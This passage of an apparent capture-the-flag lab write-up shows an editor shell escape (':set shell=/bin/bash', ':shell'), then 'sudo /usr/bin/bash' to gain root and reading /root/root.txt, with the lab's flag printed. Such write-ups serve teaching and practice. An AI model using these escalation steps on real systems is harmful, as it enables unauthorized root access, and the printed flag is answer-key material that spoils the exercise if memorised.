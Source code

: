 - Now press `v` for to enter into `VISUAL` edit mode
- press `ESC` and enter the following commands to exit the editor
```bash
:set shell=/bin/bash
:shell
``` 
__Result (interactive shell)__
![ip_address_shell](images/ip_address_shell.PNG) 
- Running bash as sudo
```bash
$ sudo /usr/bin/bash
```
- Reading the flag
```bash
root@lab:/home/ip_address# cat /root/root.txt 
{0nLy_w0RthY_57uD3Nt5_4r3_4Ble_t0_oBt41n_tH15_fL46} 
```
__Result__

![ip_address_sudo](images/ip_address_sudo.PNG)






### Bonus Section

- Initial startup of the machine looks as follows, waiting for the user to enter credentials

![ubuntu_login](images/ubuntu_login.PNG)
